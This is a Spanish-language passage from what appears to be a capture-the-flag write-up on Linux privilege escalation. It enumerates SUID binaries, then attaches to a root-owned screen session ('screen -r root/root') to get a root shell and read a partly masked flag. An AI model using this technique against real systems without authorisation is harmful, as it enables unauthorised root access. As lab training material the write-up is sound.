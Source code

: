No tenemos nada interesante, podemos empezar a enumerar binarios con permisos SUID.

```plaintext
❯ find / -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

Todos estos binarios es normal que tengan permisos SUID, pero recordemos que en la enumeración de procesos descubrimos que se estaba ejecutando el comando `screen`. Ese proceso comprobaba cada segundo que un directorio estubiera vacío, de ser este el caso ejecutaba `screen -dmS root`.

Este comando crea con el usuario root una sesión llamada `root`, gracias a que hemos enumerado los binarios con permisos SUID sabemos que podemos utilizar el comando `screen` como root, por lo tanto podemos acceder a su sesión.

```plaintext
❯ screen -r root/root
❯ whoami
root
```

Ya podemos leer la flag de root 

```plaintext
❯ cat root.txt
fb01c701a89c7223****************
```
